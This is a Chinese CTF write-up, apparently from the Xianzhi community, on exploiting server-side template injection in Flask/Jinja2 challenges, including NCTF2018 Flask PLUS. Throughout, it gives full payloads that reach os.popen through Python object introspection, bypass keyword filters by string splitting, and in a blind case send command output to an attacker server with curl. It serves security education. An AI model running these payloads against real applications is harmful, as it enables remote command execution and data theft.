{{session['__cla'+'ss__']}}
访问到了类，我们就可以通过 __bases__ 来获取基类的元组，带上索引0就可以访问到相应的基类。由此一直向上我们就可以访问到最顶层的object基类了。（同样的，如果没有过滤config的话，我们还可以利用config来逃逸，方法与session的相同）
payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]}}
有了对象基类，我们就可以通过访问 __subclasses__ 方法再实例化去访问所有的子类。同样使用字符串拼接绕过WAF，这样就实现沙箱逃逸了。
payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'ss__']()}}
SSTI目的无非就是两个：文件读写、执行命令。因此我们核心应该放在file类和os类。而坑爹的是，Python3几乎换了个遍。因此这里得去看官方文档去找相应的基类的用处。
我还是从os库入手，直接搜索“os”，找到了 os._wrap_close 类，同样使用dict键访问的方法。猜大致范围得到了索引序号，我这里序号是312，
payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312]}}
我们调用它的 __init__ 函数将其实例化，然后用 __globals__ 查看其全局变量。
payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__}}
眼又花了，但我们的目的很明显，就是要执行命令，于是直接搜索 “popen” 就可以了：

由于又是一个dict类型，我们调用的时候又可以使用字符串拼接，绕过open过滤。
后面顺理成章的，我们将命令字符串传入，实例化这个函数，然后直接调用read方法就可以了。
payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('ls /').read()}}
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('cat /Th1s__is_S3cret').read()}}
[NCTF2018]Flask PLUS
看到又是Flask，后面又加了PLUS，想必内容肯定没变，应该是过滤内容增加了。
打开题目康康，果然还是demo，随便造一个404，还是那个界面。
直接拿上一道题的payload去找所有的类，果然还是那么多。找到 os._wrap_close 类，打一发上次的payload，结果炸了：

也就是说，这里更新了过滤的内容，需要bypass。
我们来探测了一下，发现这次又加了一些过滤：
__init__file__dict____builtins____import__getattros
完蛋了了，很多方法被过滤了之后，几乎无法访问到我们所需要的方法。
到这里，我们本地机测试一下，看看有哪些方法我们可以用的：

这里我们注意到了__enter__方法，查看其内容，发现其竟然有 __globals__ 方法可用，也就是说这个__enter__方法与 __init__ 方法一模一样。
这里摘抄下一段stack overflow的一段话
这里摘抄下一段stack overflow的一段话
•
__init__(allocation of the class)•__enter__(enter context)•__exit__(leaving context)
因此 __enter__ 仅仅访问类的内容，但这已经可以达到我们所需要的目的了。
构造payload：
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('ls /').read()}}
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /Th1s_is__F1114g').read()}}
没有回显的 SSTI
当目标存在 SSTI 漏洞但是没有payload执行的回显时，我们可以使用 os.popen 和 curl 将执行结果外带出来。
例如下面这道题。进入题目后，会让你输入一个姓名然后将其输出：
经测试目标存在SSTI漏洞，但是过滤了 {{ 和 }}，我们可以使用 {%print(......)%} 的形式来绕过。
{%print(''.__class__)%}但是执行后却没有任何回显了，所以我们还得换一条路子。这里我们使用 {% if ... %}1{% endif %} 配合 os.popen 和 curl 外带数据的方法。
首先在自己vps上面开启监听：
然后执行如下payload在根目录里面寻找flag：
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `ls /|grep flag`') %}1{% endif %}如下图所示，发现flag文件：
执行如下payload读取flag：
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `cat /flag_1s_Hera`') %}1{% endif %}读取成功：

推荐阅读：
本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
原创投稿作者：WHOAMI
文章首发在先知社区